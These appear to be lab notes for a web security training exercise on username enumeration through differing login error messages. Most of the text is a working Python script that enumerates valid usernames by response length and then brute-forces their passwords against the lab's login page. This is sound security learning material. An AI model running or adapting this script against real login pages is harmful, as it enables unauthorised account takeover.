 # Lab - 01 : Auth

Topic : Username enumeration via different responses

Auth : Different responses

End Goal : Finding  username and password

Analysis : 

1. Distinguish between the 2 responses.
    
    Wrong username → “Invalid username”
    
    Wrong password → “Incorrect password”
    
2. Brute force the login page using python script.
    - Script
        
        ```python
        #! /bin/python3
        
        import requests, sys
        
        URL = 'https://0a760013048ccd1480cbda0500fd0091.web-security-academy.net/login'
        
        # proxies = {"http":"127.0.0.1:8080", "https":"127.0.0.1:8080"} 
        
        print("[+] Bypassing auth ....")
        
        usernames = []
        with open("usernames.txt", 'r') as f_user:
        	usernames_extracted = f_user.readlines();
        	for username in usernames_extracted:
        		username = username.strip('\n')
        		usernames.append(username)
        
        	#usernames are stored in the list -> usernames
        
        passwords = []
        with open("passwords.txt", 'r') as f_pass:
        	passwords_extracted = f_pass.readlines();
        	for passwd in passwords_extracted:
        		passwd = passwd.strip('\n')
        		passwords.append(passwd)
        	#passwords are stored in the list -> passwords
        
        # print(len(passwords))
        
        print('- ' * 50)
        print(f"Scanning {len(usernames)} usernames ")
        print('- ' * 50)
        
        #send requests to the login page looping through all the users in the username 
        form_data = {
        	"username" : "demo_user",
        	"password" : "demo_pass"
        }
        
        r = requests.post(URL, data=form_data)
        normal_len = len(r.text)
        # print(f"Response Length: {len(r.text)}")
        # --------------------------------
        valid_users = []
        print("Checking usernames..... \n[", end ="")
        for name in usernames:
        	print('#', end="", flush=True)
        
        	form_data = {
        		"username" : name,
        		"password" : "test"
        	}
        	r = requests.post(URL, data=form_data)
        	if len(r.text) != normal_len:
        		valid_users.append(name)
        		# print(f"Username : {name}")
        		
        print("]")
        print(f"Found : {len(valid_users)}")
        print("Valid Usernames: ")
        for user in valid_users:
        	print(user)
        # -----------------------
        print('- ' * 50)
        print(f"Scanning {len(passwords)} passwords ")
        print('- ' * 50)
        print("Checking passwords..... \n[", end ="")
        for name in valid_users:
        	
        	for passwd in passwords:
        		print('#', end="", flush=True)
        		form_data = {
        			"username" : name,
        			"password" : passwd
        		}
        		r = requests.post(URL, data=form_data)
        		if 'Incorrect' not in r.text:
        			print("]")
        			print(f"Username : {name}")
        			print(f"Password : {passwd}")
        			break;
        
        # print(len(passwords))
        # print(usernames)
        ```
        
    - Script Improvements
        
        functions to integrate ->
        read_lines
        get_baseline (optional)
        findvalidusernames(usernames, baselen(optional))
        bruteforcepass(validusers,passwords)
        
        if **name** == "**main**": (write proper syntax)
        main()
        Use this, so that when importing this script, the main does not get actually called. But this
        ensures, it only runs when you directly call it.
        
    